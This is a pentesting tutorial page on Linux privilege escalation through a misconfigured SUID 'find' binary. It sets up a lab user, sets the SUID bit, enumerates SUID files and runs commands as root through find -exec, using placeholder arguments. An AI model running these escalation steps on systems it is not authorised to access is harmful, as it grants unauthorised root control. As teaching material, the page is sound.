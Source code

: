 ```yaml
---
title: SUID Binaries
layout: default
parent: Linux Misconfigurations
grand_parent: Pentesting
nav_order: 2
---
```


# Misconfigured SUID Binaries

## Introduction

The Set User ID (SUID) permission is a critical feature in Linux that empowers users to execute a file with the privileges of a specified user, typically the file's owner. When binaries or commands are configured with the SUID bit, they run with elevated privileges, allowing users to perform actions that would otherwise be restricted. This becomes particularly significant when accessing a system as a non-root user, as it opens avenues for privilege escalation.

The discovery of binaries with the SUID bit set can present opportunities for non-root users to execute these files with root-level permissions. Certain well-known Linux and Unix executables, when configured with the SUID bit, can become powerful tools for privilege escalation. Some notable examples include Bash, Cat, cp, echo, find, Less, More, Nano, Nmap, Vim, and others. Leveraging these binaries, users can escalate their privileges, gaining access to sensitive system resources and functionalities reserved for the root user.

On this instance, we will be using the **'find'** binary for privilege escalation.

## Step-by-Step Guide

### **Setup**

#### 1. Create a user that should not be a sudo group user

```bash
┌──(root㉿workstation)-[~]
└─> sudo adduser notroot
```
![Add 'notroot' user](add_notroot_user.png)

#### 2. Give SUID permission to 'find' command

```bash
┌──(root㉿workstation)-[~]
└─> chmod u+s /usr/bin/find
```
![Add SUID permission to 'notroot' user](add_suid_permission.png)

### **Exploitation**

#### 1. Switch or Login as 'notroot'

```bash
┌──(notroot㉿workstation)-[~]
└─>
```

![Login as 'notroot' user](login_as_notroot.png)

#### 2. Enumerate all binaries having SUID permission

This command is used to enumerate and check all binaries with SUID permissions: *find / -perm -u=s -type f 2>/dev/null*

```bash
┌──(notroot㉿workstation)-[~]
└─> find / -perm -u=s -type f 2>/dev/null
```
![Enumerate all binaries with SUID permisssions](enumerate_suid_permissions.png)

Above result shows 'find' command has SUID bit enabled.

#### 3. Exploit: Execute any command within 'find' command

```bash
┌──(notroot㉿workstation)-[~]
└─> touch <file_name>

┌──(notroot㉿workstation)-[~]
└─> find <file_name> -exec <command> \;
```
![Execute any command](execute_any_command.png)

## Video Demonstration

[<img src="https://img.youtube.com/vi/cetPsoJYirA/hqdefault.jpg"
/>](https://www.youtube.com/embed/cetPsoJYirA)


## Reference
https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/


